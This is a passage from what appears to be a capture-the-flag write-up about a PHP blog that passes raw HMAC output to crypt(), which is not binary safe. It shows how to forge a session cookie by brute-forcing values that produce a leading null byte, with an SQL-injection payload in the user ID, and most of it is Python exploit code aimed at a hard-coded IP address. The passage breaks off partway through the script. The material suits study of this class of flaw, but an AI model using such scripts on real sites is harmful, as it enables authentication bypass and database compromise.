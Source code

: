 ```php
hash_equals(crypt(hash_hmac('md5', $session[0], $secret, true), $salt), $salt.$session[1])
```

This can be done by appending different things to the end of the payload (after an SQL comment) until we get a valid value. This value will produce a `crypt()` result corresponding to the `$mac` found previously.

```python
def find_exploit_collision(exploit, mac):
    """
    Finds a collision with the exploit user ID string. Appends stuff to the back of the string until
    the hash_hmac() output begins with '\x00'.
    """
    i = 0
    exploit = urllib.parse.quote_plus(exploit).replace('+', ' ')
    while True:

        print(i)

        tmp = exploit + str(i)

        # Test if the hash_hmac() output begins with '\x00' (if it does, then the MAC is valid)
        r = requests.get(URL, cookies={'session': tmp + '|' + mac})
        if "My shitty Blog" in r.text:
            return tmp

        i += 1
```

The full script to generate the exploit payload is as follows:

```python
import requests
import urllib.parse

URL = "http://65.108.176.96:8888/"

def find_collision():
    """
    Find an instance where two IDs produce '\x00' at the beginning of the hash_hmac() output,
    resulting in crypt(), which is a non binary safe function, returning the same value.

    Returns the MAC that corresponds to this result.
    """
    results = {}

    while True:
        r = requests.get(URL)
        cookie = r.headers['Set-Cookie'].split('=')[1]
        cookie = urllib.parse.unquote(cookie)

        id, mac = cookie.split('|')
        print(id, mac)
        
        if mac in results:
            return mac

        results[mac] = id

    
def find_exploit_collision(exploit, mac):
    """
    Finds a collision with the exploit user ID string. Appends stuff to the back of the string until
```